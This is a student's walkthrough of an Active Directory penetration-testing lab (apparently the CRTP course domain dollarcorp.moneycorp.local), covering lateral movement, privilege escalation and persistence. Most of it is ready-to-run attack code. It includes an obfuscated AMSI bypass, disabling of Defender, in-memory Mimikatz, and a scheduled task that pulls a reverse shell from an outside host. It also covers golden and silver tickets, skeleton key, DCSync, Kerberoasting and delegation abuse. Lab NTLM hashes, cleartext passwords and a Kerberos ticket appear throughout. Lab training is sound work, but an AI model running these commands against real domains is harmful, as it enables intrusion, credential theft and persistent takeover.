Lateral Movement, Domain Privilege Escalation and Persistance

# **Learning Objective 7**:

- Domain user on one of the machines has access to a server where a domain admin is logged in:
- Identify:
    - The Domain user
    - Server where the domain admin is logged in
- Escalate privileges to Domain Admin:
    - Using the method above.
    - Using derivative local admin

* * *

- From the jenkins reverse shell on dcorp-ci.dollarcorp.moneycorp.local, bypass AMSI then download and execute PowerView in memory and then run Invoke-UserHunter...which will take a while to return results...be patient young padawan.

# Hunt for DAs logged into machines:

```
# dcorp-ci
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )

iex (iwr http://172.16.100.37/PowerView.ps1 -UseBasicParsing)

Invoke-UserHunter
```



- A domain admin is logged in on dcorp-mgmt.dollarcorp.moneycorp.local
- Check if our user (ciadmin) has local admin access to this dcorp-mgmt server, which make privesc easier

# Check if we have Local Admin on other high value targets:

```
# This sometimes doesn't wanna work.
Invoke-UserHunter -CheckAccess

Invoke-CheckLocalAdminAccess -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
```


# Confirm Local Admin access on dcorp-mgmt by running a command over PSRemoting:

```
Invoke-Command -ScriptBlock {whoami; hostname, ipconfig} -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
```



## **FLAG#10:** Process using svcadmin as service account: sqlserver.exe
***
# Invoke-Mimikatz to dump hashes of the domain admin "svcadmin":

- transfer Invoke-Mimikatz to our reverse shell on dcorp-app from our student machine (dcorp-ci)
- create a new PSSession
- use Invoke-Command in the session to bypass AMSI
- Use Invoke-Command to run mimikatz on dcorp-mgmt

```
iex (iwr http://172.16.100.37/Invoke-Mimikatz.ps1 -UseBasicParsing)

$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local

Invoke-Command -ScriptBlock {Set-MpPreference -DisableRealtimeMonitoring $true; Set-MpPreference -DisableIOAVProtection $true; whoami} -Session $sess


Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```

  



***
## **FLAG#11: NTLM hash of svcadmin acount:**

- Svcadmin NTLM hash and cleartext passwd:

```
b38ff50264b74508085d82c69794a4d8

*ThisisBlasphemyThisisMadness!!
```
***
- Since we have the NTLM hash of a domain admin, let’s use Invoke-Mimikatz from an elevated shell to create a token from it and run powershell.exe with that token on our 100.37 machine:

```
# Powershell as administrator on student box:
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
powershell -ep bypass

Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'
```


***
## **FLAG12:** We tried to extract clear-text credentials for scheduled tasks from? Credential Vault
***
# Task 2: Escalate Privs to DA using Derivative Admin:

- Find out the machine which we have local admin privileges on

```
powershell -ep bypass

. .\PowerView.ps1

Find-LocalAdminAccess
# or
. .\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```



- We have local admin access on dcorp-adminsrv so lets PS-Remote there:

```
Enter-PSSession dcorp-adminsrv.dollarcorp.moneycorp.local
```


- Invoke-Mimikatz on dcorp-adminsrv won't work because of applocker and it drops into a constrained lang mode.

# Check for CLM and Enumerate AppLocker policy:

```
$ExecutionContext.SessionState.LanguageMode

Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```




- Looks like we can run scripts in these two directories
    
- Disable Defender protections
    
- Modify Invoke-Mimikatz.ps1 script to call the function in the script itself because we can't dot source files in constrained language mode.
    
- Copy the file to the Program Files dir on dcorp-adminsrv
    
- run script without dot sourcing it.  
    
    
- Grab the srvadmin hash  
    
***    
## **FLAG13:** NTLM hash of srvadmin extracted from dcorp-adminsrv: 
***
```
a98e18228819e8eec3dfa33cb68b0728
```
***
## **FLAG14:** NTLM hash of websvc extracted from dcorp-adminsrv:
```
cc098f204c5887eaa8253e7c2749156f
# cleartext:
AServicewhichIsNotM3@nttoBe
```
***
## **FLAG15:** NTLM hash of appadmin extracted from dcorp-adminsrv:
```
d549831a955fee51a43c83efb3928fa7
# Cleartext:
*ActuallyTheWebServer1
```
***

# Over-Pass-the-Hash with Invoke-Mimikatz:

```
# from local system with run as admin elevated shell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:svradmin /domain:dollarcorp.moneycorp.local /ntlm:a98e18228819e8eec3dfa33cb68b0728 /run:powershell.exe"'
```



- Check with PowerView to see if srvadmin has local admin privs on any other machine in the domain where a domain admin has a session available.

```
# In srvadmin shell
powershell -ep bypass
Set-MpPreference -DisableRealTimeMonitoring $true -verbose
Set-MpPreference -DisableIOAVprotection $true -verbose
. .\PowerView.ps1
Invoke-UserHunter -CheckAccess
```

- we have localadmin privs at dcorp-mgmt where svcadmin is logged on.  
    

- so lets PSRemote to dcorp-mgmt.dollarcorp.moneycorp.local and disable protections

```
Enter-PSSession dcorp-mgmt.dollarcorp.moneycorp.local
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```



- Download Invoke-Mimikatz.ps1 to dcorp-mgmt in memory and invoke it

```
iew (iwr http://172.16.100.37/Invoke-Mimikatz.ps1 -UseBasicParsing)
Invoke-Mimikatz
```



- get the ekeys:

```
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```



- Get Credentials from the credentials vault.

```
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```



- Over-Pass the hash of svcadmin user through mimikatz to open a PowerShell session with domain admin privileges:  
    

* * *

# **LEARNING OBJECTIVE 8:**

- Dump hashes on the domain controller of dollarcorp.moneycorp.local
- Using NTLM hash of krbtg account, create a Golden ticket
- Use the Golden Ticket to (once again) get DA privs from a machine proving persistence

* * *

- From the previous exercise we have da privs and used o-pth to start a PowerShell session as domain admin (svcadmin).
- Enter a PSSession to the domain controller and dump the hashes.

```
powershell -ep bypass
$sess = New-PSSession -ComputerName dcorp-dc
Enter-PSSession $sess
# Bypass Protections
Set-MpPreference -DisableRealtimemonitoring $true 
Set-MpPreference -DisableIOAVProtection $true
# exit PSRemote session
exit

Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
Enter-PSSession $sess
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```
***
## **FLAG#16:** NTLM hash of krbtgt:
```
ff46a9d8bd66c6efd77603da26796f35
```
***
## **FLAG#17:** NTLM has of domain administrator - Administrator:
```
af0686cc0ca8f04df42210c9ac980760
# Cleartext:
*DollarMakesEveryoneHappy
```
***
## DCORP-DC$ machine hash for future stuffs:
```
072796e34043d74a878dafe44f0f5dff
```
  


# Golden Ticket:

- On any machine even if it is not part of the domain but can reach dcorp-dc over network, we can use the information from the krbtgt hash to create a Golden Ticket.

```
. .\PowerView.ps1
Get-DomainSID -Administrator

Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```


- Explore the DC file system:

```
ls \\dcorp-dc.dollarcorp.moneycorp.local\C$\
```



- Run WMI commands on the Domain Controller:

```
gwmi -Class win32_computersystem -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```



* * *

# **Learning Objective 9:**

- Try to get command execution on the domain controller by creating a silver ticket for:
    - HOST service
    - WMI

* * *

# SILVER TICKET HOST SERVICE:

- From info from dumped hashes from dcorp-dc we can create a Silver Ticket that provides us access to the HOST service of DC using the machine hash of dcorp-dc$ (RC4 in below command).

```
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:731a06658bc10b59d71f5176e93e5710 /user:Administrator /ptt"'
```




- Start a listener and Schedule and execute a task to run the reverse shell script:

```
# on listener
powercat -l -p 53 -v -t 1024

# cmd to target:
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "User537" /TR "powershell.exe -c 'iex(New-Object Net.WebClient).DownloadString(''http://172.16.100.37/Invoke-PowerShellTcp.ps1''')'"

schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "User537"
```


***
## **FLAG#18:** The service whose Silver Ticket can be used for scheduling tasks: HOST
* * *

# SILVER TICKET WMI:

- For accessing WMI, we have to create two tickets: one for HOST service and another for RPCSS

```
# Create Silver Ticket for HOST service:
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:731a06658bc10b59d71f5176e93e5710 /user:Administrator /ptt"'

# Inject a ticket for RPCSS
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:RPCSS /rc4:731a06658bc10b59d71f5176e93e5710 /user:Administrator /ptt"'
```



- Now try running WMI commands on the domain controller:

```
Get-WmiObject -Class win32_operatingsystem -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```



# **LEARNING OBJECTIVE 10:**

- Use Domain Admin privileges obtained earlier to execute the Skeleton Key attack

* * *

- mimikatz command needs to be run with DA privs.
- Bypass AMSI and load mimikats into DC's memory

```
$sess = New-PSSession -dcorp-dc.dollarcorp.moneycorp.local
$sess

Enter-PSSession -Session $sess
# disable AMSI
Set-MpPreference -disableRealtimeMonitoring $true 
Set-MpPreference -disableIOAVProtection $true 
# exit session and load Invoke-mimikatz into the session from the local machine
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimikatz.ps1 -Session $sess

# Run skeleton key attack
Enter-PSSession -Session $sess
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"'
```



- Now we can log on to any machine as any user unless the Domain Controller is restarted.(use mimikatz as password)

```
Enter-PSSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Credential dcorp\administrator
```


***
## **FLAG#19:** In which process is the skeleton key injected? LSASS
* * *

# **LEARNING OBJECT 11:**

- Use DA privs to abuse the DSRM credential for persistence

* * *

- Using DA privs open a PSRemoting session

```
$sess = New-PSSession dcorp-dc.dollarcorp.moneycorp.local
$sess
# Disable AMSI on DC
# Load Invoke-Mimikatz script into the session
Invoke-Command -FilePath C:\ad\tools\Invoke-mimikatz.ps1 -Session $sess
```

- Extract the credentials from the SAM file from the DC.
- the Directory Services Restore Mode password is mapped to the local administrator on the DC

```
Enter-PSSession -Session $sess
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
```



- The DSRM Administrator is not allowed to logon to the Domain Controller from the network.
- We need to change the logon behavior for the account by modifying registry on the DC:

```
# In the $sess to the DC
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```



- Now we can pass the hash of the DSRM administrator and logon:

```
# from local machine
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'
```

- we can access the dcorp-dc directly from the new session

```
ls \\dcorp-dc.dollarcorp.moneycorp.local\c$
```
***
## **FLAG#20:** Name the Registry key modified to change Logon behavior of DSRM administrator: DsrmAdminLogonBehavior
* * *

# **LEARNING OBJECTIVE 12:**

- check if student537 has Replication (DCSync) rights.
- If yes, execute the DCSync atack to pull hashes of the krbtgt user.
- If no, add the replication rights for the student537 and execute the DCSync attack to pull the hashes of the krbtgt user.

* * *

# Check if student537 has replication rights w/ PowerView

```
. .\PowerView.ps1
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.IdentityReference -match "student537") -and (($_.ObjectType -match 'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}
```

- if no replication rights for the users, add them from a Domain Administrator shell:

```
. .\PowerView.ps1
. .\Invoke-Mimikatz.ps1
# Use Golden Ticket:
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

Add-ObjectAcl -TargetDistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -PrincipalSamAccountName student537 -Rights DCSync -Verbose
```

- Add then check again to see if DCSync rights added:  
    
    
- Get the hashes of krbtgt or any other user we want:
    

```
Invoke-Mimikatz -Command '"lsadump::dcync /user:dcorp\krbtgt"'
```

## 
## **FLAG#21:** Attack that can be executed with Replication rights(No DA privileges required): DCSync
# **LEARNING OBJECTIVE 13:**

- Modify security descriptors on dcorp-dc to get access using PowerShell Remoting and WMI without requiring administrator access
- Retrieve machine account hash from dcorp-dc withouth using administrator access and use that to execute a Silver Ticket attack to get code execution with WMI

* * *

# Modify security Descriptors to get PSRemoting and WMI w/o admin

- Once we have administrative privileges on a machine, we can modify security descriptors of services to access the services without administrative privileges. Run command as DA, which modifies the host security descriptors for WMI on the DC to allow student537 access to WMI:

```
. .\Set-RemoteWMI.ps1
Set-RemoteWMI -UserName student537 -ComputerName dcorp-dc.dollarcorp.moneycorp.local -namespace 'root\cimv2' -Verbose
```

- Now we can execute WMI queries on the DC as student537:

```
gwmi -class win32_operatingsystem -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```



# Using PSRemoting to run commands on DA and change things:

```
. .\Set-RemotePSRemoting.ps1
Set-RemotePSRemoting -UserName student537 -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Verbose

# Now we can run commands using PSRemoting on the DC w/o DA privs
Invoke-Command -ScriptBlock{whoami} -ComputerName dcorp-dollarcorp.moneycorp.local
```

# To retrieve account hash without DA:

- first modify perms on the DC

```
. .\DAMP-master\Add-RemoteRegBackdoor.ps1
Add-RemoteRegBackdoor -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Trustee student537 -Verbose
```



- Now we can retrieve the hash as student537:

```
. .\DAMP-master\RemoteHashRetrieval.ps1
Get-RemoteMachineAccountHash -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Verbose
```


***
## **FLAG#22:** SDDL string that provides student537 same permissions as BA on root\cimv2 WMI namespace. Flag value is the permission string from (A;CI;Permissions String;;;SID):
CCDCLCSWRPWPRCWD

***
# Use Machine Hash to create Silver Tickets for HOST and RPCSS Using the Machine account hash to execute WMI queries:

```
# HOST ticket
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:731a06658bc10b59d71f5176e93e5710 /user:Administrator /ptt"'

# RPCSS ticket
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:RPCSS /rc4:731a06658bc10b59d71f5176e93e5710 /user:Administrator /ptt"'
```



- Execute WMI commands now

```
gwmi -Class win32_operatingsystem -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```



---
# **LEARNING OBJECTIVE 14:**
- Offline cracking of service account passwords
- TGS (Kerberos session ticket) has a server portion that is encrypted with the password hash of a service account. 
- Request a ticket and crack it offline.
- Service accounts are often ignored, don't change passwords often and have privileged access
- hashes of service accounts can be used to create Silver Tickets
---
- Using the Kerberos attack, crack password of a SQL service service account.
---
- Find out services running with user accounts as the services running with machine accounts have difficult to crack passwords.

```
. .\PowerView.ps1
Get-NetUser -SPN
```

- svcadmin who is a DA has a SPN set.
- Request a ticket for the service:
```
Request-SPNTicket -SPN "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"
# Check if TGS for the service is there 
klist

# OR this way

Add-Type -AssemblyName System.IdentitiyModel
New-Object System.IdentityModel.Tokens.KereberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"
klist

```


- Export all tickets with Mimikatz to disk
```
. .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"kerberos::list /export"'
```


- Copy the MSSQL ticke to the Kerberoast folder on our local machine and crack the service account password with tgsrepcrack.py
```
Copy-Item .\1-40a10000-Student537@MSSQLSvc-dcorp-mgmt.dollarcorp.moneycorp.local-DOLLARCORP.MONEYCORP.LOCAL.kirbi C:\AD\Tools\kerberoast\

cd kereberoast
python.exe .\tgsrepcrack.py .\10k-worse-pass.txt .\1-40a10000-Student537@MSSQLSvc-dcorp-mgmt.dollarcorp.moneycorp.local-DOLLARCORP.MONEYCORP.LOCAL.kirbi
```


***
## **FLAG#23:** SPN for which a TGS is requested:
MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local

---
# **LEARNING OBJECTIVE 15:**
- Enumerate users that have Kerberos Preauth disabled
- Obtain the encrypted part of AS-REP for such an account
- Determing if student537 has permission to set User Account Control flags for any user
- If yes, disable Kerberos Preauth on such a user and obtain encrypted part of AS-REP
---

- enumerate users with Kerberos preauth disabled using PowerView_dev.ps1
```
. .\PowerView_dev.ps1
Get-DomainUser -PreauthNotRequired -Verbose
```


- use Get-ASREPHash from ASREPRoast to request crackable encrypted part
```
..\ASREPRoast\ASREPRoast.ps1
Get-ASREPHash -Username VPN537user -verbose
```

- Crack with JumboJohntheRipper on kali:
***
## **FLAG#24:** UserAccountControl flag set on Control537user:
4194304

---
# **Learning Objective 16:**
- Determine if student537 has permissions to set UserAccountControl flags for any user.
- If yes, force set a SPN on the user and obtain a TGS for the user
- - -
- Check if student537 has perms to set User Account Control settings for any user. Like before, we also wanna look if the RDPUsers group has any interesting permissions:
```
. .\PowerView_dev.ps1
Invoke-ACLScanner -ResolveGuids | ?{$_.IdentityReferenceName -match "student537"}
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```

***
## **FLAG25:** Which group has GenericAll rights over support537user
RDPUsers

---

- Check if support537user already has an SPN:
```
Get-DomainUser -Identity support537user | select serviceprincipalname
```


- Since student537 has GenericAll rights on support537user, we can force an SPN on it:
```
Set-DomainObject -Identity support537user -Set @{serviceprincipalname='dcorp/whatever537'} -Verbose
```

- It worked
- Now we can request a TGS for the SPN we set and save it for offline brute-forcing:
```
Add-Type -AssemblyName System.IdentityModel

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "dcorp/whatever537"
```


- Save ticket for offline bruting:
```
..\Invoke-Mimikatz.ps1
cd .\kerberoast\
Invoke-Mimikatz -Command '"kerberos::list /export"'
```


- Brute-force it here for demo purposes:
```
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\1-40a10000-student537@dcorp~whatever537-DOLLARCORP.MONEYCORP.LOCAL.kirbi
```


- ALTERNATIVE METHOD with PowerView_dev:
```
Get-DomainUser -Identity support537user | Get-DomainSPNTicket | select -ExpandProperty Hash
```


---
# **LEARNING OBJECTIVE 17:**
- Find a server in the dcorp domain where Unconstrained Delegation is enabled.
- Access that server, wait for a DA to connect to it and get Domain Admin privileges
---


- First find a server with Unconstrained Delegation enabled:
```
Get-NetComputer -Unconstrained | select -ExpandProperty name
```


- Privesc via Unconstrained Delegation requires having admin access to the machine...so we need to compromise a user that has local admin access to appsrv. 
- We already have the NTLM hashes of appadmin, srvadmin, and websvc from dcorp-adminsrv earlier.  Check if anyone of them are local admins to dcorp-appsrv:
```
# over-pth as appadmin user
powershell -ep bypass
cd c:\ad\tools\
. .\Invoke-mimikatz.ps1
Invoke-Mimikatz -command '"sekurlsa::pth /user:appadmin /domain:dollarcorp.moneycorp.local /ntlm:d549831a955fee51a43c83efb3928fa7 /run:powershell.exe"'

# check local admin rights as appadmin
. .\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAcces
```


***
## **FLAG#26:** Domain user who is a local admin on dcorp-appsrv:
appadmin
***

- Run Mimikatz in the new PS session as appadmin to check if there is a Domain Admin ticket already present on it:

```
$sess = New-PSSession -ComputerName dcorp-appsrv.dollarcorp.moneycorp.local
Enter-PSSession -Session $sess
Set-MpPreference -disableRealtimeMonitoring $true -verbose
exit
Invoke-Command -FilePath C:\ad\tools\Invoke-Mimikatz.ps1 -Session $sess
Enter-PSSession -Session $sess
mkdir user537
cd .\user537
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
PS 
ls | select name
```



- Doh!@!@ No admin on. Try Polling to catch when one logs on or use the Printer Bug to force it.

- Poll Server Method:
```
Invoke-UserHunter -ComputerName dcorp-appsrv -Poll 100 -UserName Administrator -Delay 5 -verbose
```


- Printer Bug Method:
- same as above...oPTH as appadmin
- copy Rubeus.exe to dcorp-appsrv and run it.
```
$sess2 = New-PSSession dcorp-appsrv
Enter-PSSession $sess2
Set-MpPreference -disableRealtimeMonitoring $true
mkdir user537
exit
Copy-Item -ToSession $sess2 -Path C:\AD\Tools\Rubeus.exe -Destination C:\Users\appadmin\Downloads\user537
Enter-PSSession $sess2
# start Rubeus
.\Rubeus.exe monitor /interval:5 /nowrap

# Run MS-RPRN.exe to abuse the printer bug from the studentvm
.\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
```


- Copy the b64encoded ticket...clean it up in text editor and use it with rubeus.exe on our own machine
```
.\Rubeus.exe ptt /ticket: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
```



- Now we can run a DCSync attack against DCORP-DC using the injected ticket
```
. .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

***
## **FLAG#27:** Which Domain Admin's credentials are compromised?
Administrator
## **FLAG#28:** Which user's credentials are compromised by using the printer bug?
dcorp-dc$
***

# **LEARNING OBJECTIVE 18:**
- Enumerate users in the domain for whom Constrained Delegation is enabled:
	- For those users, request a TGT from the DC and obtain a TGS for the service to which delegation is configured.
	- Pass the ticket and access the service
- Enumerate computer accounts in the domain for which Constrained Delegation is enabled:
	- For those users, request a TGT from the DC
	- Obtain an alternate TGS for LDAP service on the target machine
	- Use the TGS for executing DCSync attack
***
- To enumerate users with CONSTRAINED DELEGATION (PowerView_Dev):
```
. .\PowerView_dev.ps1
Get-DomainUser -TrustedToAuth
```


- we have hash of websvc from earlier. We can use Kekeo or Rubeus to abuse the hash:
## Kekeo Method:
- use the `tgt::ask` module to request a TGT from websvc
```
cd .\kekeo
.\kekeo.exe

kekeo# tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:cc098f204c5887eaa8253e7c2749156f
```

- Use the TGT and request a TGS. (Note: we are requesting a TGS to access cifs/dcorp-mssql as the domain administrator - Administrator.)
```
kekeo# tgs::s4u /tgt:TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs/dcorp-mssql.dollarcorp.moneycorp.LOCAL
```


- Now inject the ticket in the current session to use it with mimikatz:
```
. .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_cifs~dcorp-mssql.dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi"'
```

- We can access the file system on dcorp-mssql now!


## Rubeus method to do the same thing as above:
- We request a TGT for websvc using its NTLM hash to get a TGS for websvc as the Domain Administrator - Administrator. Then the TGS used to access the service specified in the /msdsspn parameter (which is the filesystem on dcorp-mssql):
```
.\Rubeus.exe s4u /user:websvc /rc4:cc098f204c5887eaa8253e7c2749156f /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL" /ptt
```

- Check if TGS is injected:


we can now access the filesystem on dcorp-mssql:
# Task 2: 
- Enumerate the computer accounts with Constrained Delegation Enabled with PowerView_dev:
```
Get-DomainComputer -TrustedToAuth
```

- We have the dcorp-adminsrv$ hash from early when we compromised the dcorp-adminsrv machine. Use Kekeo to abuse it.
- Request a TGT with the dcorp-adminsrv$ hash
```
.\kekeo.exe
# tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /rc4:5e77978a734e3a7f3895fb0fdbda3b96
```
- there is no SNAME validation, so we can request a TGS for TIME and also LDAP service on dcorp-dc as the domain administrator - Administrator
```
# tgt::s4u /tgt:TGT_dcorp-adminsrv$@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:time/dcorp-dc.dollarcorp.moneycorp.LOCAL|ldap/dcorp-dc.dollarcorp.moneycorp.LOCAL
```

- Use the LDAP ticket:
```
. ..\..\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_ldap~dcorp-dc.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL_ALT.kirbi"'
```

- Using this TGS, we can use DCSync from mimikatz without DA privileges:
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```


# Rubeus Method: 
